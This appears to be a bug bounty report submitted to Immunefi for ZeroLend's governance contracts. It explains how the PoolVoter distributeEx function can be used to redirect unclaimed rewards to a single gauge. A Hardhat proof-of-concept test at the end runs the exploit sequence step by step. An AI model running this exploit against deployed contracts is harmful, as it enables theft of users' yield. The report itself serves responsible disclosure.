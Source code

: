 
# Malicious user can transfer all unclaimed rewards to a custom gauge 

Submitted on Mar 3rd 2024 at 01:16:07 UTC by @MahdiKarimi for [Boost | ZeroLend](https://immunefi.com/bounty/zerolend-boost/)

Report ID: #28955

Report type: Smart Contract

Report severity: High

Target: https://github.com/zerolend/governance

Impacts:
- Theft of unclaimed yield

## Description
## Brief/Intro
A malicious user can distribute reward tokens to a specific pool gauge through distributeEx function at PoolVoter without resetting claimable mapping.


## Vulnerability Details
There are two distribute methods in PoolVoter. a distribute function, which is intended to transfer any claimable reward of a gauge and notifyRewardAmount in that gauge then reset claimable mapping , also 
there is a distributeEx function which is intended to distribute additional rewards proportionally to all gauges, it takes a rewards token address (a token that would be distributed ) and several pool addresses to distribute rewards, the distributed amount has been calculated based on pool weight proportion to the total weight. however, it doesn't check the token address provided as the parameter is not the main reward token, so the main reward token can be transferred through this function without resetting claimable mapping, which enables transferring more yield to a specific gauge, leading to a situation which contract doesn't have enough balance to distribute reward of other gauges. most rewards can transferred to a gauge to benefit the attacker.

## Impact Details
Malicious users can transfer more rewards to a gauge ( almost all rewards ), in favor of themselves, which is considered direct theft of unclaimed yields.
## References
https://github.com/zerolend/governance/blob/a30d8bb825306dfae1ec5a5a47658df57fd1189b/contracts/voter/PoolVoter.sol#L214-L234
https://github.com/zerolend/governance/blob/a30d8bb825306dfae1ec5a5a47658df57fd1189b/contracts/voter/PoolVoter.sol#L181-L190


## Proof of Concept
  ```
describe("transfer rewards test", () => {
    it("Malicious user can transfer all rewards to a speciefic gauge", async function () {
    
    // NOTE: this test works with https://github.com/zerolend/governance/commit/4c18c037bd3360ec7316733478b67632fb5218c9 commit 
    // tests didn't work at latest commit, however there is no change at pool voter other than changing some variable names between two commits 
    // so there is no differece 
    // some parts has been added to deployement as follow
    // a new lending pool has been deployed during deployment and its gauge has been registered at pool voter during deployment 
    // some zero tokens has been transferred to ant.address, so ant.address have enough zero token balance 
    // there is an issue at line 136 of PoolVoter by missing a ! sign, which prevents adding pools to _pool array and preventing distribute rewards 
    // since this issue relates to distributing rewards I needed to fix that so distribute function works by fixing if statement 
    // however I submitted that issue seperately and its different from this issue 

    // voting to both gauges equally 
    let vote1 = 1e8/2;
    let vote2 = 1e8/2; 
    await poolVoter.connect(ant).vote([reserve.target, reserve2.target],[vote1, vote2]);
   
    // notify some zero token rewards to pool voter 
    await zero.connect(ant).approve(poolVoter.target, 1e6);
    await poolVoter.connect(ant).notifyRewardAmount(1e6);

    let gauge = poolVoter.gauges(reserve.target);
    let gauge2 = poolVoter.gauges(reserve2.target);

    // update status of both gauges 
    await poolVoter.updateFor(gauge);
    await poolVoter.updateFor(gauge2);

    // retrieve total claimable amount and pool voter contract balance 
    let totalClaimable = await poolVoter.claimable(gauge) + await poolVoter.claimable(gauge2);
    let balance = await zero.balanceOf(poolVoter);

    // ensure pool voter has enough balacne to distribute claimable rewards 
    expect(balance).greaterThanOrEqual(totalClaimable);

    // call distributeEx with zero token address to distribute rewards to first gauge without reseting its claimable mapping 
    await poolVoter["distributeEx(address,uint256,uint256)"](zero.target, 0,1);

    // retrieve total claimable and balance after distribution 
    let totalClaimableAfter = await poolVoter.claimable(gauge) + await poolVoter.claimable(gauge2);
    let balanceAfter = await zero.balanceOf(poolVoter);

    // currently balance is less than totalClaimable 
    // balance is decreased but totalClaimable has not been changed 
    // so there is not enough balance to cover distributing all rewards 
    expect(balanceAfter).lessThan(totalClaimableAfter);
    expect(balanceAfter).lessThan(balance);
    expect(totalClaimable).eq(totalClaimableAfter);

    // so we can claim rewards for first gauge again, transfering all rewards to first gauge and there is not balance to transfer reward of second gauge 
    await poolVoter["distribute(address)"](gauge);


    });
  });
```